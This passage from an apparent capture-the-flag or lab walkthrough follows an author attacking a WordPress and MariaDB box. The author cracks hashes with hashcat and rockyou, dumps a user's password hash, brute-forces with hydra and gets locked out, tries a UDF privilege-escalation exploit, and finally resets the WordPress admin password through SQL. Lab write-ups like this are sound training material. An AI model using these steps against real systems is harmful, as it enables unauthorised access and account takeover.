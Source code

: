 I start up hashcat to see if that hash is crackable:

`hashcat -m 400 -w 3 -D 1,2 hash.txt rockyou.txt`

No luck.

I switch over to the mysql database and look at the users table and find the root user we already have, and also another user named jose:

```
| localhost | jose | *3AA64DAE22DBC5B7ACC28062EB18EFB7046D808C
```

I also run this hash through hashcat but it doesn't crack either.

I made the mistake of trying to use hydra with the jose user and it blocked me from the database and I can no longer log back in as root. Hopefully this automatically clears after however minutes and I don't need to reset the box.

```
ERROR 1129 (HY000): Host '192.168.49.136' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

I waited about 10 minutes and it still was locked so I just reverted the box.

I check to see if we can use the user defined function escalation method (searchsploit -m 1518) but the filesystem is read only unfortunately:

```
ERROR 1 (HY000): Can't create/write to file '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor.so' (Errcode: 30 "Read-only file system")
```

It suddenly dawns on me that we can access the MySQL database as root and that I can probably just update the admin users password for the website:

```
update wp_users set user_pass = MD5('admin') where wp_users.user_login = 'admin';
```
